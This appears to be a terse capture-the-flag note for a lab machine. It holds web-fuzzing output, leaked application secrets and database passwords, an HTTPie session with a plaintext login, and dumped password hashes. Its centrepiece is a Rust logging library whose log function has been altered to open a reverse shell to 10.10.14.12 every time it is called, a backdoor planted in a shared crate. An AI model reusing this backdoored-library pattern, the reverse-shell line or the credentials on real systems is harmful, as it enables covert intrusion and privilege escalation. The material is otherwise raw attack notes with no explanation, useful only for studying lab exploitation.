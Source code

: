 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

10.10.11.218

000000026:   200        76 L     554 W      5584 Ch     "about"                                            
000000025:   200        68 L     261 W      3543 Ch     "contact"                                          
000000053:   200        82 L     249 W      4392 Ch     "login"                                            
000000138:   200        82 L     249 W      4392 Ch     "view"                                             
000000259:   200        82 L     249 W      4392 Ch     "admin"                                            
000000390:   200        154 L    691 W      9043 Ch     "guide"                                            
000001086:   200        53 L     61 W       3187 Ch     "pgp"                                              
000001225:   200        82 L     249 W      4392 Ch     "logout"                                           
000001927:   405        5 L      20 W       153 Ch   "process"                                          



"$M1DGu4rD$"


    app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'



{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}


+----+----------------+--------------------------------------------------------------------------------------------------------+
| id | username       | password                                                                                               |
+----+----------------+--------------------------------------------------------------------------------------------------------+
|  1 | Odin           | pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f |
|  2 | silentobserver | pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d |
+----+----------------+--------------------------------------------------------------------------------------------------------+


/home/silentobserver/.local/bin


mysql://tipnet:4The_Greater_GoodJ4A@localhost:3306/Upstream



/opt/crates/logger/src/lib.rs

extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;
 
pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.12/1234 0>&1";
 
    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("not work");

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);
 
        println!("standar output: {}", stdout);
        println!("error output: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("Error: {}", stderr);
    }
 
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
 
    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
